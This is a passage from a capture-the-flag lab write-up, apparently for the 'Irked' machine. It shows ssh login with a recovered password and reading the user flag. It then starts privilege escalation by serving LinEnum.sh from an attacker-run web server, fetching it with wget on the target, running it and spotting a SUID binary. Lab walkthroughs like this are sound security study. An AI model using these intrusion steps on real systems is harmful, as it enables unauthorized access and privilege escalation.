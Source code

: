 Awesome! We've got another password. Since we found it in "djmardov" directory
let's check if it's a password for "ssh".

[[Top]](#top)

# User Flag

```
ssh djmardov@10.10.10.117
Password:

djmardov@irked:~$ cat Documents/user.txt
4a66a78b12dc0e************
```

Awesome. We are not only authenticated as a propper user, we also can
get the "userflag" now.

[[Top]](#top)

# Privilege Escalation
Let's hunt for the "rootflag". I start with downloading "LinEnum.sh" from my attacker
machine. I start a local webserver using python3.

#### Attacker
`python3 -m http.server 80`

#### Victim
```
djmardov@irked:/tmp$ wget http://10.10.15.149/LinEnum.sh                                                                                             
2018-12-24 17:42:34 (1.45 MB/s) - 'LinEnum.sh' saved [45578/45578]

djmardov@irked:/tmp$ chmod +x LinEnum.sh
djmardov@irked:/tmp$ ./LinEnum.sh -t
```

This is part of the relevant output. I noticed the program "viewuser".
Which has the SUID bit set. Why this program? It's not installed on Linux by default.
If you don't know this, you only can compare a Linux install with this one.

```
[-] SUID files:                                                                                                                                      
-rwsr-xr-x 1 root root 53112 May 17  2017 /usr/bin/passwd                                                                                            
-rwsr-xr-x 1 root root 52344 May 17  2017 /usr/bin/chfn                                                                                              
-rwsr-xr-x 1 root root 7328 May 16  2018 /usr/bin/viewuser                                                                                           
-rwsr-xr-x 1 root root 96760 Aug 13  2014 /sbin/mount.nfs                                                                                            
-rwsr-xr-x 1 root root 38868 May 17  2017 /bin/su                                                                                                    
-rwsr-xr-x 1 root root 34684 Mar 29  2015 /bin/mount
```
